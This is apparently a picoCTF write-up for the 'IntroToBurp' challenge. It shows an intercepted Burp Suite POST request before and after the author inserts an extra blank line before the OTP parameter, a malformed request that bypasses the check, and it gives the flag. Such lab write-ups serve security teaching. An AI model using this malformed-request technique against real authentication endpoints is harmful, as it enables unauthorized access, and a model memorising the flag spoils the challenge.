 # IntroToBurp

## Description

Try here to find the flag

## Hints

- Try using burpsuite to intercept request to capture the flag.
- Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.

## Solution

I changed this request as follows:

Before:

```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:54520
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Origin: http://titan.picoctf.net:54520
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:54520/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=.eJxFjEkOwyAUQ-_CuhvIL6S9DGIwStQEEIOiqurdywZ1Zz_L78Pc3t7sybad3ZirJeiWXoiDqNUEYyEClHd3LiUMaIGiB1eWhHALcQevxi_049DRnJii1PKIfCUpaNRsar1S8XPOW4rQsZ8WZbJeUf6K7w8D2i7l.Zf23kw.f0yBpHrXIzI0wjPN2_qVBqpw6_k
Connection: close

otp=123
```

After:

```http
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:54520
Content-Length: 9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Origin: http://titan.picoctf.net:54520
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:54520/dashboard
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=.eJxFjEkOwyAUQ-_CuhvIL6S9DGIwStQEEIOiqurdywZ1Zz_L78Pc3t7sybad3ZirJeiWXoiDqNUEYyEClHd3LiUMaIGiB1eWhHALcQevxi_049DRnJii1PKIfCUpaNRsar1S8XPOW4rQsZ8WZbJeUf6K7w8D2i7l.Zf23kw.f0yBpHrXIzI0wjPN2_qVBqpw6_k
Connection: close


otp=123
```

I simply added an extra new line before otp parameter and created a malforemd request.

flag: **picoCTF{p@g3_turn3r_0c0d211f}**

